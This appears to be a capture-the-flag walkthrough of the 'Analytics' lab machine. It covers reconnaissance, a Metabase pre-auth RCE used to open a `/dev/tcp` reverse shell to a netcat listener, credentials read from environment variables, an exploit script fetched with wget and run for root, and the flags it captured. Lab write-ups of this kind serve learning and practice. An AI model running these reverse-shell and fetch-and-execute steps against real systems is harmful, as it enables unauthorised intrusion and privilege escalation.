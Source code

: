 ![Analytics.png](./img/Analytics.png)
# Initial Reconnaissance
1. `curl -I 10.10.11.224` to find a possible location / DNS name
2. get a result of `analytical.htb`, add to `/etc/hosts`
3. login page lead to another DNS named `data.analytical.htb`, add to `/etc/hosts`
4. login page uses metabase
5. nothing interesting

# User Escalation
1. found RCE metabase (CVE-2023-38646) POC `https://github.com/m3m0o/metabase-pre-auth-rce-poc`
2. setup nc listener `nc -lvnp 9090`
3. get the setup-token from `/api/session/properties`
4. run the POC script `python main.py -t http://data.analytical.htb -t setup-token -c "bash -i >& /dev/tcp/my-ip/9090 0>&1"`\
note: to get your IP, `ifconfig` look for `tun` connection should be 10.10.x.y
5. get a connection in the nc listener
6. looks like i'm inside a container, check for environment variables `env`
7. exposed a credentials `metalytics:An4lytics_ds20223#`
8. ssh into the machine `ssh metalytics@10.10.11.224`, then enter the password, if fingerprint thing is asked, just `yes`
9.  once logged in, do `ls`, notice a list of file
10. `cat user.txt`
11. flag: `d79087ca55465b0f50a125b4491f26b2`

# Further Reconnaissance
1. `sudo -l` to check any available sudo command, return nothing
2. `ls /usr/bin` to find interesting binary to be exploited, found nothing interesting
3. `uname -rs` or `uname -a` find the kernel and OS version, return an Ubuntu with linux kernel 6.2.0-25

# Privilege Escalation
1. there's been a recent discovery of ubuntu privesc CVE-2023-2640 an CVE-2023-32629
2. found the POC `https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629`
3. clone the repositories, change to the repositories directory, i need to send it into the target machine
4. setup a simple http server on the repositories directory `python -m http.server`, open a http server with port 8000
5. on the target machine, create a directory `mkdir /tmp/random_name` then move to the `/tmp/random_name` directory (unwritten rules, value others by not giving the exploit or making a mess to the challenges)
6. download the file from my machine `wget my-ip:8000/exploit.sh`
7. exploit should be just a file, make it executable `chmod +x exploit.sh`
8. `./exploit.sh`, to run the exploit
9. notice that the name have been changed from `metalytics` to `root` or read the prompt in the terminal after running the script
10. `cat /root/root.txt`
11. flag: `e4a9094067381779986ebcfe49ba7873`

![Analytics-Pwned.png](./img/Analytics-Pwned.png)
